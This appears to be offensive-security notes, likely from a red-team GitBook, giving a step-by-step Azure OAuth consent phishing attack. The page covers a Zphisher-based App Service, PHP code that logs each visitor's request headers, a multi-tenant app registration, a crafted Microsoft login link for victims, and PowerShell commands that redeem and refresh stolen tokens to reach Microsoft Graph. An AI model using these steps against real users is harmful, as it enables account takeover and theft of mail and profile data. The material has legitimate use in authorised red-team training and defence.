# Azure Application service phishing

## Azure Application service phishing

The goal is to create a portal which will prompt the victim to accept specific access from an application into his account.

### Installation

Set up an APP service and Zphisher

{% embed url="https://b3v1l.gitbook.io/offensive-security-and-other-stuff/offsec/cloud-pentesting/cloud-redteam-operation/phishing-techniques/azure/azure-apps-phishing" %}

### Configuration

Add the following lines into the `/home/site/wwwroot/ip.php` (just before `fclose($fp);` )

```php
foreach (getallheaders() as $name => $value) {
                fwrite($fp, "$name: $value <br>");
}
```

### APP registration

On the portal, register a new APP (which will be what the victim will see)

![](<../../../../.gitbook/assets/image (141).png>)

Create an application display name, set the account type to "multi-tenant" and set the redirect link to the phishing web page&#x20;

![](<../../../../.gitbook/assets/image (24) (1).png>)

### API Permissions

![](<../../../../.gitbook/assets/image (195).png>)

* Set up pernissions (to be able to authenticate as the user)

![](<../../../../.gitbook/assets/image (78).png>)

![](<../../../../.gitbook/assets/image (313).png>)

### Admin consent requires

Certain permissions require an admin consent to work...

By default, an user has the ability to set up an application (accept and consent for the organization).&#x20;

![](<../../../../.gitbook/assets/image (28) (1).png>)

For instance, mail.read doesn't work for multi-tenant (same tenant is ...).

### Application Secret

Create a new secret for the application

![](<../../../../.gitbook/assets/image (172).png>)

### Set up the phishing link

Craft the URL which will be sent to the victim

* Get the "application ID" from overview menu

![](<../../../../.gitbook/assets/image (20) (1) (1).png>)

* Replace the Client\_ID value in the following link. Same for URI\_redirect (using the **phishing instance url**)

```csharp
https://login.microsoftonline.com/organizations/oauth2/v2.0/authorize?client_id=<your-client-id>&response_type=code&redirect_uri=https%3A%2F%2F<your-azure-app-service-domain>.azurewebsites.net&response_mode=query&scope=openid%20offline_access%20profile%20user.read%20email&state=1234
```

### Victim point of view

* Victim clicks on the link and get a login prompt

![](<../../../../.gitbook/assets/image (289).png>)

* Permissions request

![](<../../../../.gitbook/assets/image (96).png>)

![](<../../../../.gitbook/assets/image (165).png>)

### Steal the OAuth token&#x20;

* lifetime really short (\~ 10 minutes) but can be refreshed&#x20;

![](<../../../../.gitbook/assets/image (88).png>)

### Import the token

```csharp
$oauth_token = "TOKEN_HERE"
Import-Module AzureOAuthTools.ps1
Get-AzureAccessToken -ClientID “<your-azure-app-client-id>” -ClientSecret “<your-azure-app-secret>” -RedirectUri “https://<yourdomain>.azurewebsites.net” -AuthCode $oauth_token
```

![](<../../../../.gitbook/assets/image (163).png>)

### Access to the Microsoft Graph using the token

```csharp
Check-MSGraphAccess -access_token "Token from previous command"
```

![](<../../../../.gitbook/assets/image (114).png>)

### Refresh the token

```csharp
 Get-NewAccessTokenWithRefreshToken -ClientID "<Client_ID>" -ClientSecret "<Client_Secret>" -RedirectUri "https://<SITE>.azurewebsites.net" -RefreshToken "<Refresh TOKEN FROM PREVIOUS CMD>"
```

![](<../../../../.gitbook/assets/image (269) (1).png>)

### Resources

{% embed url="https://gist.githubusercontent.com/dafthack/4a753e00ee946a0d967fcffa9fc1c526/raw/e34ed34f9900c061bf4920dfd454f577d4191414/AzureOAuthTools.ps1" %}



